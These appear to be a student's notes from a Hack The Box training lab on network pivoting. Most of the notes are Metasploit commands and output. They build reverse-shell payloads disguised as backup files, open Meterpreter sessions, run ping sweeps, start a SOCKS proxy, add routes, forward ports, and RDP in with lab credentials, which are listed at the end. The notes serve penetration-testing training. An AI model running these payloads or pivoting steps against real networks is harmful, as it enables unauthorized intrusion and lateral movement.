 
### Create payload for a pivot host

```python
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.15.252 -f elf -o backupjob LPORT=8080
```

### Configuring & Starting the multi/handler

```python
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080 
```

>[!note] Copy the `backupjob` binary file to the Ubuntu pivot host `over SSH` and > execute it to gain a Meterpreter session.

### Execute payload on pivot host

```python
chmod +x backupjob 
```

```python
./backup
```

NOTE: Upon execution, ensure the metepreter session is fully established

### Meterpeter Session Establishment

```python
[*] Sending stage (3020772 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:8080 -> 10.129.202.64:39826 ) at 2022-03-03 12:27:43 -0500
meterpreter > pwd
/home/ubuntu
```

### Ping Sweep

**Facts**

- Windows target is on the 172.16.5.0/23 network
- Windows firewall is allowing ICMP requests
- Meterpeter's `ping_sweep` module can generate ICMP traffic from the Ubuntu host to the network

```python
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```

#### Ping Sweep via For Loop

^ping-for-loop

**Linux Hosts**

```go
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

**Windows - CMD**

```go
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

Windows - PowerShell

```go
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

#### Circumvent Firewall blocking ICMP requests (pings)

^ping-blocks

Meterpreter's socks_proxy module, a post-exploitation module can be used to forward traffic to our local proxy on your attack host.

Configure SOCKS version 4a to start a listener on port `9050` and route all the traffic received via our Meterpreter session.

### Configuring MSF's SOCKS Proxy

```go
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.
[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options
Module options (auxiliary/server/socks_proxy):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  9050             yes       The port to listen on
   VERSION  4a               yes       The SOCKS version to use (Accepted: 4a,
                                        5)
Auxiliary action:
   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```

#### Confirm Proxy Server is Running

```python
msf6 auxiliary(server/socks_proxy) > jobs
Jobs
====
  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
```

>[! Hint] Now configure proxychains to route traffic generated by other tools lthrough our pivot on the compromised Ubuntu host. Add the below line at the end of our proxychains.conf file located at /etc/proxychains.conf if it isn't already there.
> 
>
>```python
>socks4 127.0.0.1 9050
>```

NOTE: You may need to change socks4 to socks5 in proxychains.conf, depending on the server version

#### Route all the traffic via your Meterpreter session

Use the `post/multi/manage/autoroute` module from Metasploit to add routes for the 172.16.5.0 subnet and then route all our proxychains traffic.

#### Creating Routes with AutoRoute

```python
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```

#### Listing Active Routes with AutoRoute

Use the `-p` option to list the active routes

```python
meterpreter > run autoroute -p
```

Below, verify proxychain routed Nmap traffic via your Meterpreter session

#### Testing Proxy & Routing Functionality

```python
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

### Port Forwarding

Use Meterpreter's `portfwd` module to do Port Forwarding. Enable a listener on our attack host and request Meterpreter to forward all the packets received on this port via our Meterpreter session to a remote host on the 172.16.5.0/23 network.

#### Creating a Local TCP Relay

```python
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

-l 3300: start a listener on attack host local port 3300

-p 3389 -r 172.16.5.19: send all packets to remote port 3389 on the remote host 172.16.5.19

Test if the above worked by remoting into the Windows machine:

```python
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```

### Meterpreter Reverse Port Forwarding

Metasploit can also perform `reverse port forwarding` with the below command, where you might want to listen on a specific port on the compromised server and forward all incoming shells from the Ubuntu server to our attack host

#### Reverse Port Forwarding Rules

```python
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```

NOTE: forwards all connections on port 1234 running on the Ubuntu server to our attack host on local port (-l) 8081

#### Configuring & Starting multi/handler

```python
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run
```

Create a reverse shell payload that will send a connection back to our Ubuntu server on `172.16.5.129`:`1234` when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to `attack host's ip`:`8081` that we configured.

#### Generate the Windows Payload

```python
datboyblu3@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
```

After executing the Windows payload.....

#### Establish Meterpreter Session

```python
[*] Started reverse TCP handler on 0.0.0.0:8081 
[*] Sending stage (200262 bytes) to 10.10.14.18
[*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173 ) at 2022-03-04 15:26:14 -0500
meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\>
```

## Questions

IP
```go
10.129.244.34
```

Username
```go
ubuntu
```

Password
```go
HTB_@cademy_stdnt!
```

SSH
```go
ssh ubuntu@10.129.244.34
```

Follow the steps to perform the ping sweep, like [[ping-f]]
